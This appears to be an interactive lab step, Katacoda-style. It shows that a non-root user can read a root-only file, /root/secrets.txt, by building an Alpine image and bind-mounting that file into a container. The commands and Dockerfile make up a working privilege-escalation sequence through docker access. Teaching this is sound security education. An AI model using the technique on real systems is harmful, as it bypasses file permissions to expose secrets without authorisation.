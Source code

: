 
`echo "top secret secret" >> /root/secrets.txt`{{execute}}

`chmod 0600 /root/secrets.txt`{{execute}}

`ls -l /root/secrets.txt`{{execute}} 

`su - mindundi`{{execute}} 

`cat /root/secrets.txt`{{execute}} 

<pre class="file" data-filename="/home/mindundi/Dockerfile" data-target="replace">
FROM alpine:3.7
CMD ["cat", "/tmp/secrets.txt"]
</pre>

`docker build -t ourimage .`{{execute}} 

`docker run -v /root/secrets.txt:/tmp/secrets.txt ourimage`{{execute}} 